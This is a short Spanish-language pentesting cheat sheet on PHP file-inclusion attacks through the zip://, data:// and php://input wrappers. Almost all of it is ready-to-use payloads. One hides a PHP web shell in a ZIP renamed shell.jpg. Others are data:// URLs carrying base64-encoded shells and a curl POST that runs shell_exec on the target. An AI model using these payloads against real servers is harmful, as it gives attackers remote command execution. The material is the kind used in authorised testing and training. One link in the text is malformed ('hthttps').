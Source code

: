![[Pasted image 20230125151456.png]]

![[Pasted image 20230125151608.png]]

### ZIP

PHP permite leer archivos ZIP sobre la marcha con el wrapper **zip://**

```bash
echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;  
zip payload.zip payload.php;
mv payload.zip shell.jpg;
rm payload.php

http://example.com/index.php?page=zip://shell.jpg%23payload.php

```

[zip wrapper](hthttps://www.php.net/manual/en/wrappers.compression.php)

### DATA

Permite la inclusión de pequeños elementos de datos como datos "inmediatos", como si se hubieran incluido externamente.

Este Wrapper nos permite ejecutar directamente código PHP:

```bash
data:text/plain,<?php system("id")?> 

data:text/plain;base64,PD9waHAgc3lzdGVtKCJpZCIpPz4=
```

```bash
<?php  
// prints "I love PHP"  
echo file_get_contents('data://text/plain;base64,SSBsb3ZlIFBIUAo=');  
?>
```

```bash
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
NOTE: the payload is "<?php system($_GET['cmd']);echo 'Shell done !'; ?>"
```

```bash
http://example.com/index.php?file=data:,<?system($_GET['x']);?>&x=ls
```

### INPUT

Especifique su carga útil en los parámetros POST, esto se puede hacer con un  curl comando simple .

```bash
curl -X POST --data "<?php echo shell_exec('id'); ?>" "https://example.com/index.php?page=php://input%00" -k -v
```
